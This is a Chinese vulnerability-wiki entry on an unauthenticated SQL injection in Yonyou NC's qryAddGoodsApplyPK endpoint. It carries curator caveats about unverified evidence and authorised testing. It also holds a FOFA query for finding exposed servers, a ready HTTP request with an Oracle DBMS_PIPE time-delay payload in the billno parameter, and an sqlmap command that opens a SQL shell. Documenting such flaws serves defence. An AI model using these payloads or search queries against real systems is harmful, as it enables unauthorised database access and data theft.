


# 用友NC qryAddGoodsApplyPK billno SQL 注入

## 条目说明

- 对象与具体问题：用友NC；qryAddGoodsApplyPK billno SQLi
- 版本、配置及部署条件：Oracle DBMS_PIPE；分号路径
- 认证与权限前提：无Cookie样例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 延时请求缺基线/阴性对照，不由截图自动证明；sql-shell命令不是验证结果
- 官方修复标签下仅泛化建议，无公告版本

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

用友NC-qryaddgoodsapplypk-sql注入漏洞，未授权的攻击者可通过此漏洞获取数据库权限，从而盗取用户数据，造成用户信息泄露。

## 影响范围

用友 NC

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="/Client/Uclient/UClient.exe" || body="ufida.ico" || body="nccloud" || icon_hash="1085941792"

POC/EXP：

```http
GET /ebvp/other/qryAddGoodsApplyPK;.js?billno=1%27+AND+7554%3dDBMS_PIPE.RECEIVE_MESSAGE(CHR(113)||CHR(87)||CHR(74)||CHR(112),10)+AND+%27ldrk%27%3d%27ldrk HTTP/1.1
Host: 127.0.0.1:9999
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```





 sqlmap.py -u "http://127.0.0.1:9999/ebvp/other/qryAddGoodsApplyPK;.js?billno=1*" --sql-shell




## 修复方案

**官方修复：**

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
